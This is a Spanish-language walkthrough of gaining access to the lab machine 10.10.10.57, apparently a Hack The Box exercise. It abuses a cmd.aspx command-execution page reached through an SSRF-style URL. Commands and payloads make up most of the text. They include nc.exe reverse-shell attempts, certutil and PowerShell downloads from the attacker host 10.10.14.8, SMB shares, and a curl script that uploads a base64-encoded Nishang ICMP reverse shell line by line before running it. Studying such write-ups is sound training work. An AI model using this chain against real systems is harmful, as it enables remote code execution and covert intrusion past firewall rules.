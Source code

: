 ## Vuln exploit & Gaining Access {-}

### Entablar una reverse shell {-}

1. Nos ponemos en escucha por el puerto 443

    ```bash
    rlwrap nc -nlvp 443
    ```

1. Preparamos un nc.exe para la maquina victima

    ```bash
    locate nc.exe
    cp /usr/share/sqlninja/apps/nc.exe ./content
    ```

1. Nos creamos un registro compartido a nivel de red

    ```bash
    cd content
    impacket-smbserver smbFolder $(pwd) -smb2support
    ```

1. En la web

    ```bash
    http://10.10.10.57:62696/test.asp?u=http://localhost/cmd.aspx?xcmd=\\10.10.14.8\smbFolder\nc.exe -e cmd 10.10.14.8 443
    ```

En este caso no responde y vemos un exit status 1. Intentamos de varias maneras

1. Nos creamos un registro compartido a nivel de red

    ```bash
    impacket-smbserver smbFolder $(pwd) -smb2support -username s4vitar -password s4vitar123
    ```

```bash
http://10.10.10.57:62696/test.asp?u=http://localhost/cmd.aspx?xcmd=net use x: \\10.10.14.8\smbFolder /user:s4vitar s4vitar123
```

No responde y vemos un exit status 2.

Intentamos con un servidor web.

1. Nos creamos un servidor web

    ```bash
    python3 -m http.server 80
    ```

```bash
http://10.10.10.57:62696/test.asp?u=http://localhost/cmd.aspx?xcmd=certutil.exe -f -urlcache -split http://10.10.14.8/nc.exe nc.exe
http://10.10.10.57:62696/test.asp?u=http://localhost/cmd.aspx?xcmd=powershell iwr -uri http://10.10.14.8/nc.exe -OutFile test
```

No responde y vemos un exit status que no es 0.

Aqui vemos que las connecciones por TCP no funccionan. Puede ser porque hay reglas definidas que no permitten utilizar TCP y S4vitar
nos adelanta que tampoco funccionna por UDP.

Aqui hemos podido comprobar que:

- tenemos capacidad de ejecucion remota de commando.
- tenemos connectividad por trasa ICMP
- el protocolo TCP esta blockeado
- el protocole UDP esta blockeado

Segun esta analysis intentamos crearnos una reverse shell por **ICMP**

### Entablar una reverse shell por ICMP {-}

1. Nos descargamos el Nishang

    ```bash
    git clone https://github.com/samratashok/nishang
    cd nishang
    cd Shells
    cp Invoke-PowerShellIcmp.ps1 ../../icmp.ps1
    cd ../..
    vi icmp.ps1
    ```

Aqui como tenemos que passar por la url de la web para enviarnos el fichero, tenemos que preparar el fichero.

1. Ejecucion de commandos prealables en nuestra maquina

    ```bash
    sysctl -w net.ipv4.icmp_echo_ignore_all=1
    wget https://raw.githubusercontent.com/bdamele/icmpsh/master/icmpsh_m.py
    ```

1. Añadimos el invoke al final del fichero

    ```bash
    Invoke-PowerShellIcmp -IPAddress 10.10.14.8
    ```

1. Borramos todo los commentarios que hay en el fichero
1. Borramos todo los saltos de linea

    ```bash
    cat icmp.ps1 | sed '/^\s*$/d' > icmp
    rm icmp.ps1
    mv icmp icmp.ps1
    ```

1. Utilizamos una powershell

    ```bash
    pwsh
    ```

1. Codificamos el fichero en base64

    ```bash
    $fileContent = Get-Content -Raw ./icmp.ps1
    $fileContent
    $bytes = [System.Text.Encoding]::Unicode.GetBytes($fileContent)
    $encode = [Convert]::ToBase64String($bytes)
    $encode | Out-File icmp.ps1.b64
    ```

1. En una shell linux normal modificamos los symbolos `+` y `=` para encodearlos en urlencode

    ```bash
    php --interactive
    print urlencode("+");
    %2B
    print urlencode("=");
    %3D
    ```

1. Modificamos todos los symbolos `+` por **%2B** y los symbolos `=` por **%3D**
1. Spliteamos el fichero en dimensiones de lineas iguales

    ```bash
    fold icmp.ps1.b64 > icmp
    ```

1. Nos creamos un script para automatizar el envio de cada linea del fichero

    ```bash
    #!/bin/bash

    function ctrl_c(){
        echo -e "\n\n[!] Saliendo...\n"
        exit 1
    }
    
    # Ctrl+C
    trap ctrl_c INT

    for line in $(cat icmp.ps1.b64); do
        command="echo ${line} >> C:\Temp\reverse.ps1"
        curl -s -v -X GET "http://10.10.10.57:62696/test.asp?u=http://localhost/cmd.aspx" --data-urlencode "xcmd=$command"
    done
    ```

1. Lanzamos el Script

    ```bash
    ./fileUpload.sh
    ```

1. Controllamos en la web si el fichero existe

    ```bash
    http://10.10.10.57:62696/test.asp?u=http://localhost/cmd.aspx?xcmd=type C:\Temp\reverse.ps1
    ```

    Vemos el status code a 0

1. Decodificamos desde la web el fichero que esta en base64
    
    - las etapas serian estas

        ```bash
        $file = Get-Content C:\Temp\reverse.ps1 
        $decode = [System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String($file))
        $decode > C:\Temp\pwned.ps1
        ```

    - y en la url de la web seria:

        ```bash
        http://10.10.10.57:62696/test.asp?u=http://localhost/cmd.aspx?xcmd=powershell $file = Get-Content C:\Temp\reverse.ps1; $decode = [System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String($file)); $decode > C:\Temp\pwned.ps1
        ```

1. Lanzamos el script python previamente descargado

    ```bash
    rlwrap python icmpsh_m.py 10.10.14.8 10.10.10.57
    ```

1. Ejecutamos el pwned.ps1 desde la web

    ```bash
    http://10.10.10.57:62696/test.asp?u=http://localhost/cmd.aspx?xcmd=powershell C:\Temp\pwned.ps1
    ```

Por fin estamos a dentro de la maquina ;)

